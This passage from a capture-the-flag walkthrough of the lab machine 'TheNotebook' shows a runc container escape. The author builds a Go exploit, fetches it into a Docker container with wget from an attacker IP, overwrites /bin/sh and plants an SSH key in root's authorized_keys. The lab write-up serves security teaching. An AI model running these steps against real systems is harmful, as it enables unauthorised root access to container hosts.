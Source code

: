 I’ll build the ELF with `go build cve-2019-5673.go`, and now there’s an
executable:

    
    
    oxdf@parrot$ file cve-2019-5673
    cve-2019-5673: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=mhd4P3-cWrPAeCPFcvJR/6R7blmjNRY_26eSCPvqf/Q8QS3RaPp3UjsdNjgEha/h2Fafwkir7K48YtCpYjM, not stripped
    

I’ll want two shells on TheNotebook as noah, which is easy with SSH. In the
first, I’ll drop into the container and upload the binary:

    
    
    noah@thenotebook:~$ sudo docker exec -it webapp-dev01 bash
    root@97f932ea172b:/opt/webapp# wget 10.10.14.19/cve-2019-5673
    --2021-07-22 02:17:33--  http://10.10.14.19/cve-2019-5673
    Connecting to 10.10.14.19:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2140295 (2.0M) [application/octet-stream]
    Saving to: ‘cve-2019-5673’
    
    cve-2019-5673                100%[==============================================>]   2.04M  4.21MB/s    in 0.5s    
    
    2021-07-22 02:17:34 (4.21 MB/s) - ‘cve-2019-5673’ saved [2140295/2140295]
    

I’ll make it executable, and run it:

    
    
    root@97f932ea172b:/opt/webapp# chmod +x cve-2019-5673 
    root@97f932ea172b:/opt/webapp# ./cve-2019-5673 
    [+] Overwritten /bin/sh successfully
    

It hangs after reporting that `/bin/sh` was successfully overwritten. It’s
waiting for someone to try to run `runc`. In the second window, I’ll run
`docker exec` again:

    
    
    noah@thenotebook:~$ sudo docker exec -it webapp-dev01 /bin/sh
    No help topic for '/bin/sh'
    

It returns a weird error, but as soon as I run it, more prints in the first
window:

    
    
    root@97f932ea172b:/opt/webapp# ./cve-2019-5673 
    [+] Overwritten /bin/sh successfully
    [+] Found the PID: 73
    [+] Successfully got the file handle
    [+] Successfully got write handle &{0xc000460060}
    

My SSH key was just written to root’s `authorized_keys` file, and I can
connect over SSH:

    